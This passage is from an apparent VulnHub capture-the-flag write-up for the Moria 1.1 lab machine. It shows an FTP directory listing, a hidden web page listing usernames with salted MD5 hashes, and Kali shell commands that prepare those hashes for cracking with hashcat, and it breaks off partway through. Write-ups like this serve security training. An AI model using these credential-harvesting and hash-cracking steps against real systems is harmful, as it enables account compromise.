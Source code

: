 	229 Entering Extended Passive Mode (|||14844|).
	150 Here comes the directory listing.
	drwxr-xr-x    2 0        0              23 Mar 12  2017 QlVraKW4fbIkXau9zkAPNGzviT3UKntl
	-r--------    1 48       48             85 Mar 12  2017 index.php
	-r--------    1 48       48         161595 Mar 11  2017 moria.jpg
	drwxr-xr-x    3 0        0              15 Mar 12  2017 w
	226 Directory send OK.
	ftp> 
	```
	- `QlVraKW4fbIkXau9zkAPNGzviT3UKntl`

## TCP/80 (HTTP) - Obtain hashes
1. Proceed to `QlVraKW4fbIkXau9zkAPNGzviT3UKntl`
	``` 
			   Prisoner's name
				   Passkey
	   Balin 						   c2d8960157fc8540f6d5d66594e165e0
	   Oin                             727a279d913fba677c490102b135e51e
	   Ori                             8c3c3152a5c64ffb683d78efc3520114
	   Maeglin                         6ba94d6322f53f30aca4f34960203703
	   Fundin                          c789ec9fae1cd07adfc02930a39486a1
	   Nain                            fec21f5c7dcf8e5e54537cfda92df5fe
	   Dain                            6a113db1fd25c5501ec3a5936d817c29
	   Thrain                          7db5040c351237e8332bfbba757a1019
	   Telchar                         dd272382909a4f51163c77da6356cc6f
	```
	![](Pasted%20image%2020220302190142.png)
	- `MD5(MD5(Password).Salt)`

## Crack Hash - Hashcat
1. Extract usernames & hashes
	``` 
	┌──(root💀kali)-[~/vulnHub/moria-1.1/192.168.110.36/exploit]
	└─# cat creds.txt | awk '{print $2}' | sed 's/name//g' | awk 'NF' | tee hashes.txt
	c2d8960157fc8540f6d5d66594e165e0
	727a279d913fba677c490102b135e51e
	8c3c3152a5c64ffb683d78efc3520114
	6ba94d6322f53f30aca4f34960203703
	c789ec9fae1cd07adfc02930a39486a1
	fec21f5c7dcf8e5e54537cfda92df5fe
	6a113db1fd25c5501ec3a5936d817c29
	7db5040c351237e8332bfbba757a1019
	dd272382909a4f51163c77da6356cc6f

	┌──(root💀kali)-[~/vulnHub/moria-1.1/192.168.110.36/exploit]
	└─# cat creds.txt | awk '{print $1}' | sed 's/Prisoner.*\|Passkey//g' | awk 'NF' | tee usernames.txt
	Balin
	Oin
	Ori
	Maeglin
	Fundin
	Nain
	Dain
	Thrain
	Telchar
	```
2. Append salt to hash w/ `:` delimiter
	``` 
	┌──(root💀kali)-[~/vulnHub/moria-1.1/192.168.110.36/exploit]
	└─# paste -d ":" hashes.txt salt | tee salted_hash_hashcat
	c2d8960157fc8540f6d5d66594e165e0:6MAp84